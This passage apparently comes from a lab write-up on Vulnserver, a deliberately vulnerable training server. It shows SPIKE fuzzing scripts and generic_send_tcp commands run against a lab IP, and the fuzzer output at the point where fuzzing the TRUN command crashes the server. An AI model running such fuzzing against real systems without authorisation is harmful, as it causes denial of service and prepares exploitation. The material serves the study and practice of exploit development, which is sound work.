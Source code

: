 ```c
HTER [hter_value]
LTER [lter_value]
KSTAN [lstan_value]
EXIT
```

Creating a ```spike script``` for spiking using ```generic_send_tcp```,

```c
┌──(kali㉿aidenpearce369)-[~/vulnserver]
└─$ cat stats.spk 
s_readline();
s_string("STATS ");
s_string_variable("0");
                                                                       
┌──(kali㉿aidenpearce369)-[~/vulnserver]
└─$ generic_send_tcp 192.168.116.141 9999 stats.spk 0 0
```

This will start spiking the Vulnserver with ```STATS``` command, to find for any crash

Sadly we couldn't crash with ```STATS``` command

Following this process with the sequnce of commands,

```c
┌──(kali㉿aidenpearce369)-[~/vulnserver]
└─$ cat trun.spk                                      
s_readline();
s_string("TRUN ");
s_string_variable("0");
                                                                     
┌──(kali㉿aidenpearce369)-[~/vulnserver]
└─$ generic_send_tcp 192.168.116.141 9999 trun.spk 0 0

...

Fuzzing Variable 0:199
Variablesize= 20000
Fuzzing Variable 0:200
Variablesize= 10000
Fuzzing Variable 0:201
Variablesize= 5000
Fuzzing Variable 0:202
Couldn't tcp connect to target
Variablesize= 4097
tried to send to a closed socket!
Fuzzing Variable 0:203
Couldn't tcp connect to target
Variablesize= 4096
```

While spiking ```TRUN``` command, we could see that we could not connect to the Vulnserver anymore

Yes.. It got crashed!!
